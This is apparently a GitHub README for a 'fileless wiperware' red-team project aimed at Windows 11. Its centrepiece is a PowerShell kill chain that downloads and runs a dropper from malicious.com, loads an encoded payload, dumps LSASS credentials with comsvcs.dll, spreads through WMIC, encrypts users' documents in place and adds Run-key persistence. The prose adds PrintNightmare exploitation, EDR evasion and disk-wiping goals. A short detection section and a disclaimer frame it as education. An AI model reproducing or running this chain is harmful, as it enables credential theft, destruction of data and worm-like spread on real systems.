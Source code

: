 
# 🚩 Overview

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🔒 Project NSFW: Net Sharing Fileless Wiperware

### Executive Summary

**Project NSFW** is a cutting-edge red/purple team research initiative that simulates a **fileless and polymorphic malware** framework, purpose-built for **Windows 11** environments. This project highlights the real-world feasibility of advanced cyberattacks that operate solely in memory and weaponize native system binaries (LOLBins), leaving minimal forensic traces. Drawing inspiration from NotPetya-class threats, NSFW demonstrates how adversaries can exploit Windows **print spooler services** for stealthy lateral movement and privilege escalation. The framework is designed not only to emulate sophisticated adversary actions, but also to support defender education in modern detection and mitigation strategies.

---

This repository enables simulation of a realistic adversary kill chain using MITRE ATT&CK techniques, emphasizing complete fileless operation and stealth.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
```

---

### 🧠 Core Concepts

#### **Net Sharing (Initial Access & Wormability)**

* Leverages Windows print and file sharing through `net.exe`, `net use`, and other LOLBins.
* Automates exploitation of **PrintNightmare** and **HiveNightmare** vulnerabilities (`CVE-2021-34527`, `CVE-2021-36934`) for privilege escalation and worm-like propagation.
* Supports both Metasploit-driven attacks (`exploit/windows/printnightmare`) and custom PowerShell/WMI remote execution.

#### **Fileless Execution (Stealth & Evasion)**

* Executes all payloads directly in memory using trusted system binaries:
  * `rundll32.exe`, `regsvr32.exe`, `mshta.exe`, `cmdkey.exe`, `wmic.exe`
* Minimizes disk writes to thwart forensic analysis and evade AV/EDR detection.
* Delivers shellcode through phishing attachments such as `.jpg`, `.lnk`, or `.ps1` files.

#### **Wiper Logic (Final Stage Payload)**

* Emulates ransomware behavior but with a focus on **destruction rather than extortion**.
* Employs **DiskCryptor-based encryption** and **Azure AI-powered polymorphic mutation** ("Copycat") to bypass anomaly detection.
* Can optionally print ransom notes via Windows printer services for realism.

---

### 🧩 Attack Flow Overview

1. **Initial Access** – Spear phishing with embedded `.jpg` or `.lnk` files.
2. **Exploit** – Abuse of Print Spooler or Registry CVEs for escalation.
3. **Lateral Movement** – Network spreading via `net use`, WMI, or PowerShell remoting.
4. **Persistence** – Scheduled tasks or registry keys using LOLBins for stealth.
5. **Payload Execution** – In-memory DLL or shellcode injection (Donut/sRDI).
6. **Impact** – NTFS metadata destruction, ransom notes deployment, and system disruption.

---

### 🎯 Objectives

| Red Team (Adversary Simulation)         | Blue Team (Defender Insight)                 |
| --------------------------------------- | -------------------------------------------- |
| Simulate polymorphic worm-like malware  | Build detection for fileless attack chains   |
| Demonstrate AV/EDR evasion with LOLBins | Tune threat hunting based on ATT&CK mapping  |
| Trigger controlled system failure       | Apply Sigma/Sysmon for real-time monitoring  |

---

### 🔍 Detection & Mitigation Strategy

* Aligned with MITRE ATT&CK tactics:
  * `T1055` (Process Injection), `T1562` (Defense Evasion), `T1021` (Remote Services)
* Recommended detection sources:
  * **Sysmon**, **ELK**, **Splunk**, **Sigma Rules**
* Monitoring tips:
  * Watch for Print Spooler restarts, `rundll32`/`regsvr32` anomalies
  * Track unexpected driver or service installations
  * Monitor memory entropy and suspicious in-memory code execution

---

### ⚠️ Legal Disclaimer

All code, content, and techniques provided in this project are strictly for **educational** and **authorized penetration testing** purposes only. Usage must be confined to **isolated lab environments** with **explicit written permission**. Unauthorized use outside these parameters may violate laws and regulations.

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware – Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

### 📚 Print Spooler CVEs

* [SysNightmare](https://github.com/GossiTheDog/SystemNightmare)
* [PrintSpoofer (Original)](https://github.com/itm4n/PrintSpoofer/tree/master)
* [PrintSpoofer 2](https://github.com/dievus/printspoofer)
* [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)
